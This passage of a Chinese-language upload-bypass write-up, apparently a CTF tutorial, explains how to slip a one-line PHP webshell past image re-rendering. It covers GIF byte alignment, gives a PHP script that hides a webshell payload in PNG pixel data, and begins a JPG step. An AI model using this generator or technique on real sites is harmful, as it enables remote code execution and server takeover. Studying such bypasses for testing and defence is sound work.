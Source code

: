 上传gif文件，下载对比

[![sTLUEQ.png](https://s3.ax1x.com/2021/01/23/sTLUEQ.png)](https://imgchr.com/i/sTLUEQ)

可以看出gif经过二次渲染后相同的地方挺多，所以只需在相同处插入一句话木马，就可绕过二次渲染。

第一次构造失败了，但可以看出只有<被渲染去掉了，，位移一位再次写入。

[![sTXzB8.png](https://s3.ax1x.com/2021/01/23/sTXzB8.png)](https://imgchr.com/i/sTXzB8)

[![sTjuEF.png](https://s3.ax1x.com/2021/01/23/sTjuEF.png)](https://imgchr.com/i/sTjuEF)

成功绕过二次渲染，解析了脚本文件

**2.上传png文件**

png较麻烦，直接上脚本

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```

运行脚本，会生成1.png的文件，

[![sTzYD0.png](https://s3.ax1x.com/2021/01/23/sTzYD0.png)](https://imgchr.com/i/sTzYD0)

上传此文件，下载后查看16 进制文本

[![sTzYD0.png](https://s3.ax1x.com/2021/01/23/sTzYD0.png)](https://imgchr.com/i/sTzYD0)

**3.上传jpg文件**

上传任意一张jpg文件，下载到本地

使用脚本处理此文件 php jpg_payload.php 1.jpg

